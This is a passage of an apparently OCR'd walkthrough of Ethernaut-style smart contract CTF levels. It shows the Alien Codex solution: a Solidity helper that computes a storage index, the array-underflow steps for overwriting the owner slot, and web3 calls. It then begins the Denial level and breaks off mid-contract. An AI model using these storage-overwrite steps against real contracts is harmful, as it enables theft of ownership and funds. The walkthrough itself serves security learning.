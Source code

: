     bytes32 public one;
    uint public index;
    uint public length;
    bytes32 public lengthBytes;
    
    function getIndex() {
        one = keccak256(bytes32(1));
        index = 2 ** 256 - 1 - uint(one) + 1;
    }
    
    function getLength() {
        length = 2 ** 200 + 1;
        lengthBytes = bytes32(length);
    }
}
```

The index will be 35707666377435648211887908874984608119992236509074197713628505308453184860938


Call revise passing it index and your address left padded with 0 to total 32 bytes as content

Setting Contact to True
Method make_contact sets contact to true, 

Hash of the signature of the function would be await web3.utils.sha3('make_contact()'), which results to 0x58699c5546b14433a9f2a3b57db9b54a4d55329ad8fe08f84e85fb05403fa215. We are going to take first 4 bytes, so 0x58699c55 our desired result.

We can call make_contact method to set contact to true -

```await web3.eth.sendTransaction({to: contract.address, data: data, from: player, gas: 900000})```

or just ```await contract.make_contact()```

A result of ```await contract.contact()``` should change to true.

Then call retract(): ```await contract.retract()```

Call ```await contract.contact()``` 


## Denial
Difficulty 5/10

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
